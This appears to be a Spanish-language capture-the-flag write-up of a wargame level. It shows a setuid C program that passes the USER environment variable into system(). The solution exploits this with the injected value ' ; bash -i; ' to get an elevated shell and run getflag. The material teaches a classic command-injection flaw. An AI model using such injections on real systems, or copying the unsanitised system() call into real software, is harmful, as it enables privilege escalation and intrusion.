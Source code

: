 ----


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```


----


## Solution
----


Podemos notar que el binario tiene la parte de otorgar permisos al "ejecutante" de una manera parecida al reto anterior, sin embargo, en este problema tenemos una variable tipo string llamada buffer, dos funciones nuevas, _asprintf_ y _getenv_, por lo que visitando el man rápidamente identificaremos que hace cada función.
----


Pronto nos daremos cuenta que podemos modificar el contenido de buffer a voluntad, ya que la variable USER, es una variable de entorno de level02. Ya que el contenido de USER se concatena después de echo, podemos hacer una llamada inyectando comandos en la variable:

```
$ USER=" ; bash -i; " ./flag02
# getflag
```

---